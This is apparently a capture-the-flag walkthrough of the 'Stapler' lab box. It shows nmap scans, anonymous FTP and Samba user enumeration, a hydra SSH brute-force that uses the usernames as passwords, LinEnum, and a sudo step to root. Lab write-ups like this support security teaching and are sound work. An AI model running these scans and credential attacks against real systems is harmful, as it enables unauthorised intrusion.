


Stapler was an interesting box that required various skills to exploit and escalate privileges. It began with port enumeration, identifying several vulnerable services, including FTP, SSH, and SMB.
Initial access was obtained through anonymous FTP login, revealing a note with usernames. SMB enumeration revealed more users, which were used to create a list of names.
The exploitation involved brute-forcing SSH using the list of usernames, resulting in access with valid credentials. This allowed entry into the system.
The lateral escalation was achieved using the tool LinEnum.sh, which identified that the user Peter could execute commands as root.
The final privilege escalation was achieved by executing a root shell as the user Peter, resulting in full system access.

# Overview



## 1. Information Gathering

### Port Scan

All ports

```bash
sudo nmap -Pn -sV -p- --open 192.168.186.148 -T5 -v 
```
Output

```
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         vsftpd 2.0.8 or later
22/tcp    open  ssh         OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
53/tcp    open  tcpwrapped
80/tcp    open  http        PHP cli server 5.5 or later
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
666/tcp   open  doom?
3306/tcp  open  mysql       MySQL 5.7.12-0ubuntu1
12380/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port666-TCP:V=7.94SVN%I=7%D=7/9%Time=668DD942%P=x86_64-pc-linux-gnu%r(N
SF:ULL,2D58,"PK\x03\x04\x14\0\x02\0\x08\0d\x80\xc3Hp\xdf\x15\x81\xaa,\0\0\
SF:x152\0\0\x0c\0\x1c\0message2\.jpgUT\t\0\x03\+\x9cQWJ\x9cQWux\x0b\0\x01\
SF:x04\xf5\x01\0\0\x04\x14\0\0\0\xadz\x0bT\x13\xe7\xbe\xefP\x94\x88\x88A@\
SF:xa2\x20\x19\xabUT\xc4T\x11\xa9\x102>\x8a\xd4RDK\x15\x85Jj\xa9\"DL\[E\xa
SF:2\x0c\x19\x140<\xc4\xb4\xb5\xca\xaen\x89\x8a\x8aV\x11\x91W\xc5H\x20\x0f
SF:\xb2\xf7\xb6\x88\n\x82@%\x99d\xb7\xc8#;3\[\r_\xcddr\x87\xbd\xcf9\xf7\xa
SF:eu\xeeY\xeb\xdc\xb3oX\xacY\xf92\xf3e\xfe\xdf\xff\xff\xff=2\x9f\xf3\x99\
SF:xd3\x08y}\xb8a\xe3\x06\xc8\xc5\x05\x82>`\xfe\x20\xa7\x05:\xb4y\xaf\xf8\
SF:xa0\xf8\xc0\^\xf1\x97sC\x97\xbd\x0b\xbd\xb7nc\xdc\xa4I\xd0\xc4\+j\xce\[
SF:\x87\xa0\xe5\x1b\xf7\xcc=,\xce\x9a\xbb\xeb\xeb\xdds\xbf\xde\xbd\xeb\x8b
SF:\xf4\xfdis\x0f\xeeM\?\xb0\xf4\x1f\xa3\xcceY\xfb\xbe\x98\x9b\xb6\xfb\xe0
SF:\xdc\]sS\xc5bQ\xfa\xee\xb7\xe7\xbc\x05AoA\x93\xfe9\xd3\x82\x7f\xcc\xe4\
SF:xd5\x1dx\xa2O\x0e\xdd\x994\x9c\xe7\xfe\x871\xb0N\xea\x1c\x80\xd63w\xf1\
SF:xaf\xbd&&q\xf9\x97'i\x85fL\x81\xe2\\\xf6\xb9\xba\xcc\x80\xde\x9a\xe1\xe
SF:2:\xc3\xc5\xa9\x85`\x08r\x99\xfc\xcf\x13\xa0\x7f{\xb9\xbc\xe5:i\xb2\x1b
SF:k\x8a\xfbT\x0f\xe6\x84\x06/\xe8-\x17W\xd7\xb7&\xb9N\x9e<\xb1\\\.\xb9\xc
SF:c\xe7\xd0\xa4\x19\x93\xbd\xdf\^\xbe\xd6\xcdg\xcb\.\xd6\xbc\xaf\|W\x1c\x
SF:fd\xf6\xe2\x94\xf9\xebj\xdbf~\xfc\x98x'\xf4\xf3\xaf\x8f\xb9O\xf5\xe3\xc
SF:c\x9a\xed\xbf`a\xd0\xa2\xc5KV\x86\xad\n\x7fou\xc4\xfa\xf7\xa37\xc4\|\xb
SF:0\xf1\xc3\x84O\xb6nK\xdc\xbe#\)\xf5\x8b\xdd{\xd2\xf6\xa6g\x1c8\x98u\(\[
SF:r\xf8H~A\xe1qYQq\xc9w\xa7\xbe\?}\xa6\xfc\x0f\?\x9c\xbdTy\xf9\xca\xd5\xa
SF:ak\xd7\x7f\xbcSW\xdf\xd0\xd8\xf4\xd3\xddf\xb5F\xabk\xd7\xff\xe9\xcf\x7f
SF:y\xd2\xd5\xfd\xb4\xa7\xf7Y_\?n2\xff\xf5\xd7\xdf\x86\^\x0c\x8f\x90\x7f\x
SF:7f\xf9\xea\xb5m\x1c\xfc\xfef\"\.\x17\xc8\xf5\?B\xff\xbf\xc6\xc5,\x82\xc
SF:b\[\x93&\xb9NbM\xc4\xe5\xf2V\xf6\xc4\t3&M~{\xb9\x9b\xf7\xda-\xac\]_\xf9
SF:\xcc\[qt\x8a\xef\xbao/\xd6\xb6\xb9\xcf\x0f\xfd\x98\x98\xf9\xf9\xd7\x8f\
SF:xa7\xfa\xbd\xb3\x12_@N\x84\xf6\x8f\xc8\xfe{\x81\x1d\xfb\x1fE\xf6\x1f\x8
SF:1\xfd\xef\xb8\xfa\xa1i\xae\.L\xf2\\g@\x08D\xbb\xbfp\xb5\xd4\xf4Ym\x0bI\
SF:x96\x1e\xcb\x879-a\)T\x02\xc8\$\x14k\x08\xae\xfcZ\x90\xe6E\xcb<C\xcap\x
SF:8f\xd0\x8f\x9fu\x01\x8dvT\xf0'\x9b\xe4ST%\x9f5\x95\xab\rSWb\xecN\xfb&\x
SF:f4\xed\xe3v\x13O\xb73A#\xf0,\xd5\xc2\^\xe8\xfc\xc0\xa7\xaf\xab4\xcfC\xc
SF:d\x88\x8e}\xac\x15\xf6~\xc4R\x8e`wT\x96\xa8KT\x1cam\xdb\x99f\xfb\n\xbc\
SF:xbcL}AJ\xe5H\x912\x88\(O\0k\xc9\xa9\x1a\x93\xb8\x84\x8fdN\xbf\x17\xf5\x
SF:f0\.npy\.9\x04\xcf\x14\x1d\x89Rr9\xe4\xd2\xae\x91#\xfbOg\xed\xf6\x15\x0
SF:4\xf6~\xf1\]V\xdcBGu\xeb\xaa=\x8e\xef\xa4HU\x1e\x8f\x9f\x9bI\xf4\xb6GTQ
SF:\xf3\xe9\xe5\x8e\x0b\x14L\xb2\xda\x92\x12\xf3\x95\xa2\x1c\xb3\x13\*P\x1
SF:1\?\xfb\xf3\xda\xcaDfv\x89`\xa9\xe4k\xc4S\x0e\xd6P0");
Service Info: Host: RED; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Searching for vulnerabilities in services

```bash
nmap -v -Pn 192.168.186.148 -p139,53,22,21,3306,80,12380 --script=vuln
```
Output

```
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
53/tcp    open  domain
80/tcp    open  http
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
139/tcp   open  netbios-ssn
3306/tcp  open  mysql
|_mysql-vuln-cve2012-2122: ERROR: Script execution failed (use -d to debug)
12380/tcp open  unknown

Host script results:
| smb-vuln-cve2009-3103: 
|   VULNERABLE:
|   SMBv2 exploit (CVE-2009-3103, Microsoft Security Advisory 975497)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2009-3103
|           Array index error in the SMBv2 protocol implementation in srv2.sys in Microsoft Windows Vista Gold, SP1, and SP2,
|           Windows Server 2008 Gold and SP2, and Windows 7 RC allows remote attackers to execute arbitrary code or cause a
|           denial of service (system crash) via an & (ampersand) character in a Process ID High header field in a NEGOTIATE
|           PROTOCOL REQUEST packet, which triggers an attempted dereference of an out-of-bounds memory location,
|           aka "SMBv2 Negotiation Vulnerability."
|           
|     Disclosure date: 2009-09-08
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
|_      http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
|_smb-vuln-ms10-061: false
|_smb-vuln-ms10-054: false
| smb-vuln-regsvc-dos: 
|   VULNERABLE:
|   Service regsvc in Microsoft Windows systems vulnerable to denial of service
|     State: VULNERABLE
|       The service regsvc in Microsoft Windows 2000 systems is vulnerable to denial of service caused by a null deference
|       pointer. This script will crash the service if it is vulnerable. This vulnerability was discovered by Ron Bowes
|       while working on smb-enum-sessions.
|_ 
```

## 2. Enumeration

### Port 21

Login was successful with anonymous credentials



note file

```bash
Elly, make sure you update the payload information. Leave it in your FTP account once your are done, John.
```

> Users: Elly, John.
> 

### Port 139

searching for users

```bash
enum4linux 192.168.233.148
```
share of directory

```
 ================================( Share Enumeration on 192.168.233.148 )================================

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	kathy           Disk      Fred, What are we doing here?
	tmp             Disk      All temporary files should be stored here
	IPC$            IPC       IPC Service (red server (Samba, Ubuntu))
```

Additional users

```
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\peter (Local User)
S-1-22-1-1001 Unix User\RNunemaker (Local User)
S-1-22-1-1002 Unix User\ETollefson (Local User)
S-1-22-1-1003 Unix User\DSwanger (Local User)
S-1-22-1-1004 Unix User\AParnell (Local User)
S-1-22-1-1005 Unix User\SHayslett (Local User)
S-1-22-1-1006 Unix User\MBassin (Local User)
S-1-22-1-1007 Unix User\JBare (Local User)
S-1-22-1-1008 Unix User\LSolum (Local User)
S-1-22-1-1009 Unix User\IChadwick (Local User)
S-1-22-1-1010 Unix User\MFrei (Local User)
S-1-22-1-1011 Unix User\SStroud (Local User)
S-1-22-1-1012 Unix User\CCeaser (Local User)
S-1-22-1-1013 Unix User\JKanode (Local User)
S-1-22-1-1014 Unix User\CJoo (Local User)
S-1-22-1-1015 Unix User\Eeth (Local User)
S-1-22-1-1016 Unix User\LSolum2 (Local User)
S-1-22-1-1017 Unix User\JLipps (Local User)
S-1-22-1-1018 Unix User\jamie (Local User)
S-1-22-1-1019 Unix User\Sam (Local User)
S-1-22-1-1020 Unix User\Drew (Local User)
S-1-22-1-1021 Unix User\jess (Local User)
S-1-22-1-1022 Unix User\SHAY (Local User)
S-1-22-1-1023 Unix User\Taylor (Local User)
S-1-22-1-1024 Unix User\mel (Local User)
S-1-22-1-1025 Unix User\kai (Local User)
S-1-22-1-1026 Unix User\zoe (Local User)
S-1-22-1-1027 Unix User\NATHAN (Local User)
S-1-22-1-1028 Unix User\www (Local User)
S-1-22-1-1029 Unix User\elly (Local User)
```

Create a list of usernames and passwords

```bash
cat list.txt | cut -d '\' -f2 | cut -d " " -f1 > names.txt
```
Output

```
peter
RNunemaker
ETollefson
DSwanger
AParnell
SHayslett
MBassin
JBare
LSolum
IChadwick
MFrei
SStroud
CCeaser
JKanode
CJoo
Eeth
LSolum2
JLipps
jamie
Sam
Drew
jess
SHAY
Taylor
mel
kai
zoe
NATHAN
www
elly
```

## 3. Exploitation

### Brute Force SSH

```bash
hydra -L names.txt  -P names.txt -f 192.168.233.148 ssh  -vV
```

Output


Initial Access
```bash
ssh [SHayslett@192.168.233.148](mailto:SHayslett@192.168.233.148)
```


## 4. Post-Exploitation

### Lateral Escalation

used the tool [LinEnum.sh](http://linenum.sh/)

[https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)


Target

```bash
chmod + LinEnum.sh
./LinEnum.sh
```


Peter can execute commands as root

### Privilege Escalation
Root Access
```bash
sudo bash
```
